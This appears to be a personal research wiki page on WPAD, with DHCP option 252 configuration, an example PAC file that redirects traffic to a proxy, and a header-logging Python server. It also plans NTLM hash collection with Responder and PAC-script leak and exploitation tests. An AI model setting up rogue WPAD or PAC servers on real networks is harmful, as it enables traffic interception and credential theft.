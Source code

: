 <!-- TITLE: Wpad -->
<!-- SUBTITLE: A quick summary of Wpad -->

# DNS
# WINS
# NMB
# Windows Command to show proxy
```
netsh winhttp show proxy
```
# DHCP Response
Per Cisco site (https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector2972A/WPADAP.html):  
A browser that supports both methods will check the DHCP assignment first, before attempting the DNS method.

A DHCP server must be configured to serve an additional setting in an IP address assignment; option 252. This option specifies the exact location of the PAC file. The file name does not need to follow any specific naming convention, however if WPAD DNS is to be used also, the file must have the file name wpad.dat.

A Web browser implementing this method sends the DHCP server a DHCPINFORM query, the DHCP server will return the expected IP settings along with the 252 option which defines the location of the PAC file. The browser will then download this PAC file from the URL provided. 

Can DHCP Response be sent unsolicited?

# isc-dhcp-server
How to configure isc-dhcp-server to send option...

```
option local-proxy-config code 252 = text;

subnet 1.1.1.0 netmask 255.255.255.0 {
  range 1.1.1.128 1.1.1.254;
  option domain-name-servers 1.1.1.1;
  option domain-name "wb.local";
  option subnet-mask 255.255.255.0;
  default-lease-time 600;
  max-lease-time 7200;
  option local-proxy-config "http://1.1.1.1/wpad_dhcp.dat";
}
```

# Example Response

```text
function FindProxyForURL(url, host) {
        return "PROXY 10.0.0.169:8080";
}
```

# Example Python Server (note content-type)

```text
import SimpleHTTPServer
import SocketServer
import logging

PORT = 80


class GetHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = GetHandler

Handler.extensions_map.update({
    '.dat': 'application/x-ns-proxy-autoconfig',
});

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()

```

# PHP to set content-type
```
<?PHP
  header('Content-Type: application/x-ns-proxy-autoconfig');
?>
```

# Configuring apache to use php for .dat files
The following goes in php7.x.conf (note that php has to be enabled).
```
<FilesMatch ".+\.dat$">
  SetHandler application/x-httpd-php
</FilesMatch>
```

# Hash Collection using WPAD
responder does this.  Should upgrade python server to only request it once per machine.  Once I've got it, don't require it.  Also research which processes will provide it.  Windows Update?  Adobe?

# Things to Try
* Want list of software that honors WPAD.  DHCP, DNS, and WINS
	* Collect User-agent
	* how many times does each piece try?
		* Which one is actually used?
	* Caching?
* All software needs to try all tests
* Will need base64-encoding function for leak encoding
* Tests - To be done inside FindProxyForURL and outside
	* Alert()
	* Divide by zero
	* Namespace exploration
	* dns resolution to indicate execution
	* infinite loop
	* infinite recursion
	* spectre stuff for external examination
	* Does js have exception handling?
	* explore built in function implementation (looking for leaks)
